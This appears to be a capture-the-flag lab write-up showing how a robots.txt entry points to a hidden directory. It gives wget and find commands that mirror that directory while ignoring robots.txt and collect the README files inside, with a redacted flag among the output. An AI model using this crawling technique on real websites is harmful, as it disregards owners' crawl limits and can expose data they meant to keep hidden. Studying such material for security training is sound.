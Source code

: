 # Robots and folders

## Exploit
An interesting URL to explore to gather some intel on a website is `/robots.txt`. It's purpose is to tell well-behaving robots which paths not to crawl or index.
Within this website's robots.txt we notice the presence of `${URL}/.hidden`, exploring it seems like a mess of folder. Thankfully we can use some trusty shell commands to find the needle in the haystack:
```shell
$ wget  --mirror --no-parent --execute robots=off http://${URL}/.hidden/ #recursively download the whole folder
$ cd ${URL}/.hidden
$ find . -name "*README" | xargs cat | sort | uniq #read all README files, sort them, and delete duplicated lines
[REDACTED]
Demande à ton voisin de droite
Demande à ton voisin de gauche
Demande à ton voisin du dessous
Demande à ton voisin du dessus
Non ce n'est toujours pas bon ...
Toujours pas tu vas craquer non ?
Tu veux de l'aide ? Moi aussi !
```
No need to code a fancy script.
